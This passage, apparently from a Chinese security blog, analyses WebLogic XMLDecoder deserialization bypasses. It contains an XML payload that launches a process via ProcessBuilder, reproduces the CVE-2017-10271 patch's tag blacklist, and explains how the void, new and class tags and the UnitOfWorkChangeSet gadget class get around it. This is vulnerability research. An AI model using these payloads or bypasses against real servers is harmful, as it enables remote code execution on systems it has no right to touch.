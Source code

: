 将 `object` 修改成 `void` 即可绕过，比如像 payload 中用 `ProcessBuilder.start()` 这种没有返回值的方法来 rce时就能用 `void` 来绕过，用 `new` 也是可以的

```
&lt;java version=&#34;1.4.0&#34; class=&#34;java.beans.XMLDecoder&#34;&gt;
    &lt;new class=&#34;java.lang.ProcessBuilder&#34;&gt;    
        &lt;string&gt;calc&lt;/string&gt;
&lt;method name=&#34;start&#34; /&gt;
    &lt;/new&gt;
&lt;/java&gt;
```

#### CVE-2017-10271 补丁分析

```java
private void validate(InputStream is) {
   WebLogicSAXParserFactory factory = new WebLogicSAXParserFactory();
   try {
      SAXParser parser = factory.newSAXParser();
      parser.parse(is, new DefaultHandler() {
         private int overallarraylength = 0;
         public void startElement(String uri, String localName, String qName, Attributes attributes) throws SAXException {
            if(qName.equalsIgnoreCase(&#34;object&#34;)) {
               throw new IllegalStateException(&#34;Invalid element qName:object&#34;);
            } else if(qName.equalsIgnoreCase(&#34;new&#34;)) {
               throw new IllegalStateException(&#34;Invalid element qName:new&#34;);
            } else if(qName.equalsIgnoreCase(&#34;method&#34;)) {
               throw new IllegalStateException(&#34;Invalid element qName:method&#34;);
            } else {
               if(qName.equalsIgnoreCase(&#34;void&#34;)) {
                  for(int attClass = 0; attClass &lt; attributes.getLength(); &#43;&#43;attClass) {
                     if(!&#34;index&#34;.equalsIgnoreCase(attributes.getQName(attClass))) {
                        throw new IllegalStateException(&#34;Invalid attribute for element void:&#34; &#43; attributes.getQName(attClass));
                     }
                  }
               }
               if(qName.equalsIgnoreCase(&#34;array&#34;)) {
                  String var9 = attributes.getValue(&#34;class&#34;);
                  if(var9 != null &amp;&amp; !var9.equalsIgnoreCase(&#34;byte&#34;)) {
                     throw new IllegalStateException(&#34;The value of class attribute is not valid for array element.&#34;);
                  }
```

还是黑名单，又加了几个标签，参看xmldecoder的官方文档很容易发现 class 标签可以动态加载任意类

![image-20250428223424983](https://bu.dusays.com/2025/05/11/682041b48d91c.png)

根据上面补丁的要求，我们知道所利用的类需要满足构造方法存在利用点，且其构造方法的参数类型恰好是字节数组或者是java中的基础数据类型，比如string，int这些，刚好 `oracle.toplink.internal.sessions.UnitOfWorkChangeSet` 就满足

![image-20250428223724642](https://bu.dusays.com/2025/05/11/682041b4850e4.png)
